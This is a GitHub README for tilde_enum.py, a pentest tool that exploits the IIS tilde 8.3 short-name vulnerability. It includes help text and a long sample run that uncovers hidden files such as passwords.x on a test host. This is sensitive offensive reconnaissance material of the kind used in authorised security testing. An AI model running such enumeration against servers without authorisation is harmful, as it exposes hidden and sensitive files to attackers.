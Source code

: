 tilde_enum
==========

Takes a URL and then exploits the IIS tilde 8.3 enumeration vuln and tries to get you full file names.

You feed this script URL and also a word list of potential file names. The script will look up the file roots in your word list and then try them with appropriate extensions.

The [fuzzdb](https://code.google.com/p/fuzzdb/) word lists are pretty good. We sometimes use the https://code.google.com/p/fuzzdb/source/browse/trunk/discovery/PredictableRes/raft-small-words-lowercase.txt (or large or medium) for this work.

There are known bugs that we are working to resolve in this version (it is 93+% good). Looking for feedback and suggestions.


Help
====
<pre>$  ./tilde_enum.py -h
usage: tilde_enum.py [-h] [-b] [-f] [-u URL] [-v] wordlist

Expands the file names found from the tilde enumeration vuln

positional arguments:
  wordlist    the wordlist file

optional arguments:
  -h, --help  show this help message and exit
  -b          brute force backup extension, extensions
  -f          force testing of the server even if the headers do not report it
              as an IIS system
  -u URL      URL to scan
  -v          verbose output
</pre>


Sample Output
======
<pre>
$  ./tilde_enum.py -u http://iis /pentest/fuzzdb/discovery/PredictableRes/raft-small-words-lowercase.txt
[-]  Testing with dummy file request http://iis/BgLWKLNKUm.htm
[-]	URLNotThere -> HTTP Code: 404, Response Length: 1635
[-]  Testing with user-submitted http://iis
[-]	URLUser -> HTTP Code: 200, Response Length: 1433
[+]  The server is reporting that it is IIS (Microsoft-IIS/6.0).
[+]  The server is vulnerable to the tilde enumeration vulnerability.
[+]  Found a new directory: aspnet
[+]  Found a new directory: copyof
[+]  Found file:  dqa5e5 . htm
[+]  Found file:  eee . htm
[+]  Found a new directory: javasc
[+]  Found file:  parame . xml
[+]  Found file:  passwo . x
[+]  Found a new directory: php_so
[+]  Found file:  postin . htm
[+]  Found file:  server . ht
[+]  Found file:  2ac185 . htm
[+]  Found file:  321 . xls
[+]  Found file:  4321 . htm
[+]  Found file:  654321 . old
[+]  Found file:  765432 . htm
[+]  Found file:  876543 . jpg
[+]  Found file:  987654 . abc
[+]  Found file:  _vti_i . htm
[+]  Found a new directory: _vti_s
[-]  Finished doing the 8.3 enumeration for http://iis.
[-]  Now starting the word guessing using word list calls
[+]  Searching for dqa5e5 in word list
[+]  Searching for htm in extension word list
[-]  File name (eee) too  to look up in word list. We will use it to bruteforce.
[+]  Searching for htm in extension word list
[*]  Found one! (Size 8) http://iis/eee.html
[+]  Searching for parame in word list
[+]  Searching for xml in extension word list
[*]  Found one! (Size 1307) http://iis/parameters.xml
[*]  Found one! (Size 1307) http://iis/parameter.xml
[+]  Searching for passwo in word list
[-]  Extension (x) too short to look up in word list. We will use it to bruteforce.
[*]  Found one! (Size 198) http://iis/passwords.x
[+]  Searching for postin in word list
[+]  Searching for htm in extension word list
[*]  Found one! (Size 2449) http://iis/postinfo.html
[+]  Searching for server in word list
[-]  Extension (ht) too short to look up in word list. We will use it to bruteforce.
[+]  Searching for 2ac185 in word list
[+]  Searching for htm in extension word list
[-]  File name (321) too  to look up in word list. We will use it to bruteforce.
[+]  Searching for xls in extension word list
[*]  Found one! (Size 227) http://iis/321.xlsx
[-]  File name (4321) too  to look up in word list. We will use it to bruteforce.
[+]  Searching for htm in extension word list
[*]  Found one! (Size 227) http://iis/4321.html
[+]  Searching for 654321 in word list
[+]  Searching for old in extension word list
[+]  Searching for 765432 in word list
[+]  Searching for htm in extension word list
[+]  Searching for 876543 in word list
[+]  Searching for jpg in extension word list
[+]  Searching for 987654 in word list
[+]  Searching for abc in extension word list
[+]  Searching for _vti_i in word list
[+]  Searching for htm in extension word list
[*]  Found one! (Size 1754) http://iis/_vti_inf.html
[-]  Trying to find directory matches now.
[?]  URL: (Size 218) http://iis/aspnet_client/ with Response: HTTP Error 403: Forbidden 
[?]  URL: (Size 218) http://iis/javascript/ with Response: HTTP Error 403: Forbidden 

---------- FINAL OUTPUT ------------------------------
[*]  We found files for you to look at
[*]      http://iis/321.xlsx  - Size 227
[*]      http://iis/4321.html  - Size 227
[*]      http://iis/_vti_inf.html  - Size 1754
[*]      http://iis/eee.html  - Size 8
[*]      http://iis/parameter.xml  - Size 1307
[*]      http://iis/parameters.xml  - Size 1307
[*]      http://iis/passwords.x  - Size 198
[*]      http://iis/postinfo.html  - Size 2449

[*]  Here are all the 8.3 names we found.
[*]  If any of these are 6 chars and look like they should work,
        try the file name with the first or second instead of all of them.
[*]      http://iis/2ac185~1.htm
[*]      http://iis/321~1.xls
[*]      http://iis/4321~1.htm
[*]      http://iis/654321~1.old
[*]      http://iis/765432~1.htm
[*]      http://iis/876543~1.jpg
[*]      http://iis/987654~1.abc
[*]      http://iis/_vti_i~1.htm
[*]      http://iis/dqa5e5~1.htm
[*]      http://iis/eee~1.htm
[*]      http://iis/parame~1.xml
[*]      http://iis/passwo~1.x
[*]      http://iis/postin~1.htm
[*]      http://iis/server~1.ht

[*]  Here are all the directory names we found. You may wish to try to guess them yourself too.
[*]      http://iis/_vti_s/
[*]      http://iis/aspnet/
[*]      http://iis/copyof/
[*]      http://iis/javasc/
[*]      http://iis/php_so/

[*]  We found directory URLs you should check out. They were not HTTP response code 200s.
[?]      HTTP Resp 403 - http://iis/aspnet_client/  - Size 218
[?]      HTTP Resp 403 - http://iis/javascript/  - Size 218
</pre>
